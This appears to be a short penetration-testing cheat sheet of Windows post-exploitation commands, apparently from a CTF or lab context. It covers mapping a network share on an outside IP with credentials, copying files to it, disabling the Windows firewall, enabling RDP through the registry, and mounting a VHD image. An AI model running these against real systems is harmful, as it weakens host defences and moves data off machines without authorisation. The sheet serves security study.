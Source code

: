 # Windows Enumeration Tips
 
 ## Searching files with dir
 ```
 [@swisskyrepo] https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
 
 dir /S /B filename*.txt
 ```

 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

 ## Copy File to Mapped Drive
 ```
 cp <filename> f:\ 
 (or location)
 ```

 ## Enable/Disable Windows Firewall CLI
 ```
 NetSh Advfirewall set allprofiles state on
 netsh advfirewall set allprofiles state off
 ```

 ## Enable RDP (Terminal Services)
 ```
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
 ```

 ## Mount a VHD Drive
 - ```--add`` is the name of the file
 ```
 mkdir /mnt/vhd
 sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
 ```